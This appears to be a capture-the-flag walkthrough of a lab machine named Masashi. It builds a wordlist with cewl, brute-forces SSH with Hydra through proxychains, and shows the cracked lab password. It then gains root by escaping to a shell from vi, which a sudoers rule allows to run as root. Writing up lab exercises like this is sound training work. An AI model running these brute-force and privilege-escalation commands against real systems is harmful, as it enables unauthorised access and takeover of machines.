we are going to try this : 
```
proxychains tftp 10.10.0.128:1337

```
we have no results, but we have a user "sv5"
and we are going to try to make a bruteforce attack with a custom dictionary with the words of the default page of apache.

```
cewl -w diccionario.txt http://172.16.2.187
```

now with hydra launch the attack 

```
proxychains hydra -l sv5 -P diccionario.txt ssh://172.16.2.187 -t 60 2>/dev/null
```

The user and pass :

22][ssh] host: 172.16.2.187   login: sv5   password: whoistheplug

how to connect 
```
proxychains ssh sv5@10.10.0.128
```

we're in

id 
sudo -l
(i can use vim as a root on the tmp folder..)
```
(ALL) NOPASSWD: /usr/bin/vi /tmp/*
```


sudo vi /tmp/prueba 
```
esc
shift+:
set shell=/bin/bash
esc
shift+:
shell
```
now you put whoami and the bash is spawned as a root

end.
# Masashi #

Skills
- Creating a customized dictionary with cewl
- SSH Brute Force - Hydra

- Abusing Sudoers Privilege (Privilege Escalation)
